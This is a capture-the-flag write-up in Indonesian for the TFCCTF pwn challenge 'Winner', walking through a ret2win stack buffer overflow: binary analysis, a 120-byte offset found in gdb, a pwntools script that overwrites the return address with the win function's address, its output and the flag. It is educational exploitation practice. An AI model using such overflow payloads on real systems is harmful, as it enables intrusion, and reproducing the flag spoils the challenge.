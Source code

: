 ## Winner

![Challenge Picture](./attachments/winner.png)

## Overview & Description

Author : tomadimitrie

Points : 50

You just won a contest! What do you do?

[winner](https://ctf.thefewchosen.com/attachments/1497e223-1f6c-4c28-9fa2-f6e3fdfd61dd.main)

## Hints


## Step by Step

1. Download file ELF yang diberikan, berikut rincian keamanan dalam checksec

![checksec](./attachments/checksec.png)

2. Seperti challenge pwn sebelumnya, program ini membutuhkan libc 2.34, untuk itu kita lakukan patch menggunakan pwninit lagi

![error](./attachments/libcerror.png)

![pwninit](./attachments/pwninit.png)

3. Program tersebut meminta kita untuk memasukkan nama, dikatakan bahwa kita memenangkan sebuah hadiah, dan program meminta input nama

![program](./attachments/program.png)

4. Cek program melalui ghidra dan disassemble function main, namun disini yang membuat mata saya tertuju adalah, function win

![win](./attachments/win_func.png)

5. Jadi, jika kita berhasil men-trigger function tersebut, maka function akan execute flag menggunakan getenv()

6. Jadi saya berpikir bahwa ini vuln ret2win, yang diperlukan adalah offset program dimana program akan terkena segfault, lalu kita tambahkan address win didalam payload

7. Disini saya mencoba meng-inputkan string sebanyak 120, dan terjadi lah segfault, yang menyebabkan rbp (base pointer) terisi dengan 8 bytes dari string tersebut, disini kita bisa memasukkan address win di base pointer

![gdb](./attachments/gdb.png)

8. Langsung saja kita buat scriptnya

```python
#!/usr/bin/env python3

from pwn import *
import struct

server = "01.linux.challenges.ctf.thefewchosen.com"
port = 49640


io = remote(server, port)

payload = b"A" * 120 + struct.pack("<Q", 0x0004011be)

io.sendline(payload)

io.interactive()
```

9. 0x0004011be adalah address dimana function win akan men-trigger getenv(), maka kita tambahkan didalam payload setelah offset ditemukan

![getenvaddr](./attachments/getenv.png)

10. Kita jalankan script tersebut, dan ketemu flagnya

```console
┌──(sh1roneko㉿xvrf)-[~/…/CTF/TFCCTF/pwn/winner]
└─$ python3 solver.py      
[+] Opening connection to 01.linux.challenges.ctf.thefewchosen.com on port 49640: Done
[*] Switching to interactive mode
Congratulations! You have just won a contest! Input your name to claim your prize: 
TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}Congratulations! You have just won a contest! Input your name to claim your prize: 
[*] Got EOF while reading in interactive
$  
```


## Flag

`TFCCTF{C0ngr4tulati0n5_0n_th3_pr1z3!}`
